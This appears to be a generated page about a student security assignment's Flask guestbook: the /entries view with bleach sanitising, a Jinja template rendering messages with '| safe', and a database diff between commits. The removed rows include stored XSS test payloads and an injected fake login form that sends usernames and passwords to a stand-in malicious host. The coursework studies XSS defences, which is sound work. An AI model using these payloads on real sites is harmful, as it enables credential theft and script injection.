
/entries, run on an earlier commit of the app's database.

And on a later commit of the database.
### tables this page shows
CREATE TABLE entries (
            id INTEGER PRIMARY KEY AUTOINCREMENT,
            name TEXT NOT NULL,
            email TEXT NOT NULL UNIQUE,
            message TEXT NOT NULL,
            created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
            updated_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
        );

### app.py (the view)
@app.route("/entries")
def entries():
    conn = sqlite3.connect("data.db")
    c = conn.cursor()
    c.execute("SELECT * FROM entries")
    entries = c.fetchall()
    conn.close()
    sanitized_entries = [
        (entry[0], bleach.clean(entry[1]), bleach.clean(entry[2], tags=[], attributes={}), bleach.clean(entry[3], tags=[], attributes={}))
        for entry in entries
    ]
    return render_template("entries.html", entries=sanitized_entries)

### templates/entries.html (shortened to what this page needs)
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body style="background-color: rgb(230, 175, 173);">
    <h1>All the stuff we have stolen</h1>
    <ul>
        {% for entry in entries %}
        <li>
            ID: {{ entry[0] }}<br>
            Name: {{ entry[1] }}<br>
            Email: {{ entry[2] }}<br>
            Message: {{ entry[3] | safe }}<br>
        </li>
        {% endfor %}
    </ul>
    <a href="{{ url_for('index') }}">Back to Home</a>
</body>
</html>

What changed in the data, as far as the page shows it:
removed entries: id "4", name "hgjk", email "hjk@gkj", entry "<script>alert('XSS Attack!')</script>"
removed entries: id "5", name "fjhsdfj", email "fesmn@fjeklw", message "fdsbjk"
removed entries: id "6", name "vndfsn", email "vnldks@vfdjk", entry "<script>alert('XSS Attack!')</script>"
removed entries: id "7", name "fekjwl", email "fehjw@fghjkew", entry "<script>alert('XSS Attack!')</script>"
removed entries: id "8", name "gjk", email "gjk@gkj", entry "<h2>Login Required</h2> <form action=\"http://malicious-site.com/steal-info\" method=\"POST\"> <label for=\"username\">Username:</label> <input type=\"text\" id=\"username\" name=\"username\"><br><br> <label for=\"password\">Password:</label> <input type=\"password\" id=\"password\" name=\"password\"><br><br> <input type=\"submit\" value=\"Log In\"> </form>"
removed entries: id "9", name "hjkf", email "hjkl@jk", message "hjgred"
removed entries: id "10", name "bj", email "bjk@gkj", message "<script>alert('XSS Attack!')</script>"
removed entries: id "11", name "LejlaJuliaLina", email "LejlaJuliaLina@uia.com", message "Hello, we are group number 13, and this is our Assignment 2 in IKT222."
removed entries: id "12", name "h,khlk", email "hjhj@nker", message "fev"
removed entries: id "13", name "cdhksl", email "ncdb@hgjk", message "<script>alert(’XSS’)</script>"
removed entries: id "14", name "jkd", email "hfjekw@hfjk", message "hfjew"
removed entries: id "15", name "denkwlq", email "febjwk@chwedkl", message "<script>alert('XSS Attack!')</script>"
removed entries: id "16", name "fnjbkw", email "fbjwek@fbewjk", message "<script>alert('XSS Attack!')</script>"
removed entries: id "17", name "dcbh", email "bcdjk@dhjk", message "<script>alert('XSS Attack!')</script>"
changed entries id 1: name "hei" → "Lejla"; email "hei@uia.no" → "lejlam@uia.no"; message "feiofhoi" → "Cowboy-Laila"
changed entries id 2: name "Ary" → "Lina"; email "ary@uia.no" → "linaha@uia.no"; message "oifjewoijf" → "Lol"
changed entries id 3: name "hklh" → "Julia"; email "hkl@jkl" → "juliamm@uia.no"; message "gjh" → "McLaren"
